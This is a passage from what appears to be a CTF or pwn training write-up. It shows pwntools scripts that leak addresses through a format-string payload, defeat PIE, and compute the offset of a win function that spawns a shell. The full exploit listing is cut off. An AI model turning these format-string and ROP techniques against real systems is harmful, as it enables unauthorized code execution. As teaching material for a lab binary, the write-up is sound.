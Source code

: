 ```py
p = start()
p.recvline()
p.sendline("%p "*(0x60))
p.interactive()
```

Do you see a lot of garbage ? Along with that do you see some amazing addresses ?

![](/images/pwn-train2/pwntrain11.png)

Exactly, the address `0x0000555555555222` is the start of main. So we have overcome the problem of PIE, since we know a address in the binary, we can calculate the relative offsets of other functions as well. Lets see what helper function we are provided with now.

## ROP:

![](/images/pwn-train2/pwntrain12.png)

A win function: this will call execve("/bin/sh"), its a ROP challenge and I am pretty sure you know how to do it. There is a small catch here. We have to calculate the relative offset of the addresses since PIE is enabled, so manually calculate the distance of the gadgets and the win function.

```py
p = start()

p.recvline()
p.sendline("%p "*(27))
l = p.recvline().split()

leaked_main = int(l[-1], 16)
win_func = leaked_main - (0x555555555222-0x5555555551c8)
binary_start = leaked_main - (0x555555555222-0x555555554000)

log.info("Leaked main address: " + str(l[-1]))
log.info("win function: "+ str(win_func))
log.info("Binary Start: "+ str(leaked_main - (0x555555555222-0x555555554000)))

p.interactive()
```

Here, I found out that the 27th position, the address of main is printed so I put all the leaked stuff into a list (You can just strip it and store the main address value too). Next I manaually subtract the offset and add it to get the address from the leaked value. Also just to be sure everything is correct, I log all the info I get and verify them in gdb.

Now its simple, just call the win function with its argument set to `0xdeadbeefcafebabe` (RDI).

Full Exploit: 
```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2win_pie'
elf = ELF("ret2win_pie")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b* main+67
```